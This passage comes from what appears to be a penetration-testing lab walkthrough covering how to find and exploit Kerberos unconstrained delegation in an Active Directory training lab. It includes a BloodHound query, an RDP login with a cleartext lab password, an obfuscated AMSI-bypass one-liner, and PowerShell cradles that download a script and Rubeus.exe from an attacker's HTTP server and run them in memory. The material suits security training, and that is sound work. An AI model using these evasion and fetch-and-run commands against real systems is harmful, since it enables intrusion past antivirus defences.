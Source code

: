 If you want to search for unconstrained delegation system (out of domain controller) :

```
MATCH (c1:Computer)-[:MemberOf*1..]->(g:Group) WHERE g.objectid ENDS WITH '-516' WITH COLLECT(c1.name) AS domainControllers MATCH (c2 {unconstraineddelegation:true}) WHERE NOT c2.name IN domainControllers RETURN c2
```

- In the windows GUI it look like this :

![delegation_windows_unconstrained.png](/assets/blog/GOAD/delegation_windows_unconstrained.png)

### Exploit

- To exploit an unconstrained delegation the simplest way is to do that from windows with Rubeus.

- We launch an RDP connection on Winterfell.

```bash
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert-ignore
```

> On the previous step we already own the north domain, let's say we got eddard password.<br>
> Eddard's password came in cleartext when you run donPapi on Winterfell because there is a schedule task on this user
{: .prompt-info }


- From there we will bypass AMSI and launch Rubeus in memory (just like in part8)

> Off course we could stop the defender anti-virus on the server, but on a real Pentest you didn't want to do that on your customer servers.

- Prepare our server containing Rubeus.exe and our AMSI bypass.

```bash
python3 -m http.server 8080
```

- On the RDP session bypass AMSI :

```bash
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')|IEX
```

- Now launch Rubeus in memory with execute assembly. 
- First we will list the available tickets :

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```

![deleg_unconcstrained_before_coerce.png](/assets/blog/GOAD/deleg_unconcstrained_before_coerce.png)
